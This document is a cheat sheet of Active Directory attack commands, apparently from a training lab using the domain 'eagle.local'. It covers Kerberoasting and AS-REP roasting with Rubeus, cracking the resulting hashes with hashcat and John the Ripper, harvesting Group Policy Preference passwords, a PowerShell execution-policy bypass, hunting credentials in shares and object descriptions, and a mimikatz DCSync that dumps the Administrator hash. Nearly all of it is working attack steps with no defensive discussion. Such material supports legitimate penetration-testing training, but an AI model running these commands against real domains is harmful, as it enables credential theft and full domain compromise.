 | Command | Description |
| --- | --- |
| `.\Rubeus.exe kerberoast /outfile:spn.txt` | Used to perform the Kerberoast attack and save output to a file. |
| `hashcat -m 13100 -a 0 spn.txt passwords.txt` | Uses `hashcat` to crack Keberoastable TGS tickets. |
| `sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot` | Uses `John the Ripper` to crack TGS tickets, and outputs to results.pot. |

# Asreproasting

| Command | Description |
| --- | --- |
| `.\Rubeus.exe asreproast /outfile:asrep.txt` | Used to perform the Asreproast attack and save the extracted tickets to a file. |
| `hashcat -m 18200 -a 0 asrep.txt passwords.txt --force` | Uses `hashcat` to crack AS-REP hashes that were saved in a file. |

# GPP Passwords

| Command | Description |
| --- | --- |
| `Import-Module .\Get-GPPPassword.ps1` | Used to import the `Get-GPPPassword.ps1` script into the current powershell session. |
| `Get-GPPPassword` | Cmdlet to automatically parse all XML files in the Policies folder in SYSVOL. |
| `Set-ExecutionPolicy Unrestricted -Scope CurrentUser` | Used to bypass powershell script execution policy. |

# Credentials in Shares

| Command | Description |
| --- | --- |
| `Import-Module .\PowerView.ps1` | Used to load the `PowerView.ps1` module into memory |
| `Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess` | PowerShell cmdlet used to identify shares in a domain |
| `findstr /m /s /i "eagle" *.ps1` | Forces a search within the current directory + subdirectories for the .ps1 file containing the string "eagle" |

# Credentials in Object Properties

| Command | Description |
| --- | --- |
| `.\SearchUser.ps1 -Terms pass` | Script to look for specific terms in the `Description` and `Info` fields of an AD object |

# DCSync

| Command | Description |
| --- | --- |
| `runas /user:eagle\rocky cmd.exe` | Start a new instance of `cmd.exe` as the user `eagle\rocky`. |
| `mimikatz.exe` | Tool used to implement the DCsync attack |
| `lsadump::dcsync /domain:eagle.local /user:Administrator` | Command used in `mimikatz` to DCSync and dump the `Administrator` password hash |
